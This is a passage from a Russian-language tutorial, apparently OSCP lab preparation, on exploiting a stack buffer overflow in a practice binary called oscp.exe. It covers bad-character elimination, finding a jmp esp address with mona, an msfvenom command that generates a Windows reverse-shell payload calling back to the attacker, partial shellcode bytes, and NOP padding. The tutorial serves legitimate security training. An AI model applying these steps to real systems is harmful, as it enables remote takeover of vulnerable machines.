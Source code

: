 Первый плохой символ в списке должен быть нулевым байтом (\x00), так как мы уже удалили его из файла. Запишите все 
остальные. Создайте новый bytearray в mona, указав эти новые плохие символы вместе с \x00. Затем обновите переменную 
payload в вашем скрипте explore.py и также удалите новые плохие символы.  

Перезапустите oscp.exe в Immunity и снова запустите измененный скрипт explore.py. Повторяйте сравнение badchar, пока 
статус результатов не вернет "Unmodified". Это означает, что больше не существует badchar. 

Нахождение точки перехода

Когда oscp.exe запущен или находится в аварийном состоянии, выполните следующую команду mona, обязательно обновив 
параметр -cpb всеми обнаруженными вами символами badchars (включая \x00): 

`!mona jmp -r esp -cpb "\x00"`

Эта команда находит все инструкции "jmp esp" (или эквивалентные) с адресами, которые не содержат ни одного из 
указанных плохих символов. Результаты должны отображаться в окне "Log data" (используйте меню Window, чтобы 
переключиться на него, если необходимо).  

Выберите адрес и обновите свой скрипт explore.py, установив переменную "retn" на адрес, записанный в обратном 
порядке (так как система имеет прямой порядок байтов). Например, если адрес в Immunity — \x01\x02\x03\x04, запишите 
его в своем эксплойте как \x04\x03\x02\x01.  

Генерация полезной нагрузки

Запустите следующую команду msfvenom на Kali, используя ваш IP-адрес Kali VPN в качестве LHOST и обновив параметр -b 
всеми идентифицированными вами символами badchars (включая \x00): 

`msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

Скопируйте сгенерированные строки кода C и интегрируйте их в переменную полезной нагрузки скрипта explore.py, 
используя следующую запись: 

```commandline
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```


Добавить NOP-ы

Поскольку для генерации полезной нагрузки, скорее всего, использовался кодировщик, вам понадобится некоторое 
пространство в памяти для распаковки полезной нагрузки. Вы можете сделать это, установив переменную padding на 
строку из 16 или более байтов "No Operation" (\x90):  
